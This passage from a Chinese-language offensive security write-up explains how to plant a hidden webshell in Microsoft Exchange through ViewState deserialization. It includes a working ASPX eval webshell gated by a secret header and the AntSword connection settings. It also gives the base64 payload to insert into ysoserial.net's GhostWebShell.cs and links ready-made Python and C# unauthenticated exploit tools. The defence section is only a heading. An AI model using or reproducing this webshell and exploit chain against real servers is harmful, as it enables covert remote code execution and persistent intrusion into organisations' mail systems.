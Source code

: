 将虚拟目录设置为根目录，访问的url示例：`https://<url>/owa/auth/<任意字符>.aspx`

为了避免意外访问，需要添加访问条件，填入Header判断，如果不满足条件跳转至错误页面`errorFE.aspx`

一句话的测试代码：

```
<%@ Page Language="Jscript"%><%
if(Request.Headers["Value"]=="00HGAT3K0AXHV2RF2W0G")
{
eval(Request.Item["antsword"],"unsafe");	
}
else
{
Response.Redirect("/owa/auth/errorFE.aspx?httpCode=404");
}
%>
```

使用AntSword连接时，需要设置HTTP HEADERS，内容如下：

```
Name:  Value
Value: 00HGAT3K0AXHV2RF2W0G
```

Base64后的字符为：`PCVAIFBhZ2UgTGFuZ3VhZ2U9IkpzY3JpcHQiJT48JQppZihSZXF1ZXN0LkhlYWRlcnNbIlZhbHVlIl09PSIwMEhHQVQzSzBBWEhWMlJGMlcwRyIpCnsKZXZhbChSZXF1ZXN0Lkl0ZW1bImFudHN3b3JkIl0sInVuc2FmZSIpOwkKfQplbHNlCnsKUmVzcG9uc2UuUmVkaXJlY3QoIi9vd2EvYXV0aC9lcnJvckZFLmFzcHg/aHR0cENvZGU9NDA0Iik7Cn0KJT4=`

替换[GhostWebShell.cs](https://github.com/pwntester/ysoserial.net/blob/master/ExploitClass/GhostWebShell.cs)中的`webshellContentsBase64`

完整的Python实现代码已上传至github，地址如下：

https://github.com/3gstudent/Homework-of-Python/blob/master/ExchangeDeserializeShell-NoAuth-ghostfile.py

代码支持两个位置的反序列化执行，分别为默认存在的文件`%ExchangeInstallPath%\FrontEnd\HttpProxy\owa\auth\errorFE.aspx`和`%ExchangeInstallPath%\FrontEnd\HttpProxy\ecp\auth\TimeoutLogout.aspx`，能够自动生成带有Webshell功能的GhostWebShell.cs，使用[ysoserial.net](https://github.com/pwntester/ysoserial.net)生成ViewState并发送

完整的C#实现代码已上传至github，地址如下：

https://github.com/3gstudent/Homework-of-C-Sharp/blob/master/SharpExchangeDeserializeShell-NoAuth-ghostfile.cs

代码功能同上，可直接编译并执行，不再依赖[ysoserial.net](https://github.com/pwntester/ysoserial.net)

**注：**

为了便于在Exchange下进行测试，我将[GhostWebShell.cs](https://github.com/pwntester/ysoserial.net/blob/master/ExploitClass/GhostWebShell.cs)修改成了aspx文件，可以直接访问进行测试，代码地址如下：

https://github.com/3gstudent/test/blob/master/PageLoad_ghostfile.aspx


## 0x04 防御检测
---
